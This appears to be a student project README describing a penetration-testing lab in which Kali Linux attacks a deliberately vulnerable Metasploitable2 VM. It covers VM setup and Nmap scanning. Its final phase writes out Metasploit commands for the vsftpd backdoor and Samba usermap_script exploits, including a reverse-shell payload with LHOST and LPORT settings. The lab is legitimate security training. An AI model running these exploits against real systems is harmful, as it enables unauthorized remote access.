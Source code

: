 # Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Griffin

### Project Description

- The purpose of this project is to conduct offensive security research focused on identifying 
vulnerabilities within IT systems and improving cybersecurity defenses. The project will simulate real-world attacks
using a controlled environment that includes a Kali Linux VM and a Metasploitable2 VM, providing a platform for
vulnerability discovery and exploitation. The primary tools used in this research will be Metasploit Framework and Nmap,
focusing on how they can be utilized to find and exploit vulnerabilities.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Metasploitable2 VM` a VM intentionally configured to have exploitable vulnerabilities, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system and the `Metasploitable2 VM` as the target.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system, followed by using the `Metasploit
Framework` to exploit the vulnerabilities.
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Metasploitable 2 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Metasploitable2` iso image from http://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk (or Use an Existing Hard Disk File)**
- Install the `Metasploitable2` iso image onto the newly created VM instance
- Change the **Network Adapter** to **Host-only Adapter** in the `Metasploitable2 VM` machine settings
- Start the `Metasploitable2 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- Install the `Kali Linux` iso image onto the newly created VM instance
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using the login credentials created

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux VM` and the `Metasploitable2 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Metasploitable2 VM` terminal

**Displays IP configuration information on the system**
``` 
ifconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Metasploitable2 VM` using the following command

**Scans all 65,535 ports on the target system and returns every open port**
```
nmap -p- <target ip>
```

- A few exploitable ports that were open on our target system are as follows
  + `ftp port 21`
  + `telnet port 23`
  + `samba port 445`

# Phase 1.4 - Exploiting using Metasploit Framework

- Now that we know the open ports on the target system, we can use the `Metasploit Framework` tool on our `Kali Linux VM` to exploit some vulnerabilities
- Since we know that `ftp port 21` is open, we can exploit an FTP shell access vulnerability on the target system using the following commands

**Loads the exploit to target an FTP backdoor vulnerability granting unauthorized access**
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
**Sets the remote host to the IPv4 address of the target system**
```
set RHOST <target ip>
```
**Runs the exploit**
```
exploit
```

- Next, we can run the following command to gain remote access to the target system via the open `telnet port 23`

**Connects to a remote system using the telnet protocol using the format `service target_ip port_number`**

```
telnet <target ip> 23
```

- We can also access the shell of the target system via the `samba port 445` by using the following commands

**Loads the exploit to target a samba vulnerability**
```
use exploit/multi/samba/usermap_script
```
**Sets remote host IPv4 address of target system**
```
set RHOST <target ip>
```
**Sets payload to open a reverse shell**
```
set payload cmd/unix/reverse
```
**Sets the IPv4 address of host machine where the reverse shell will connect**
```
set LHOST <host ip>
```
**Sets the port on the host machine that will listen for the reverse shell**
```
set LPORT 4444
```
**Runs the exploit**
```
exploit
```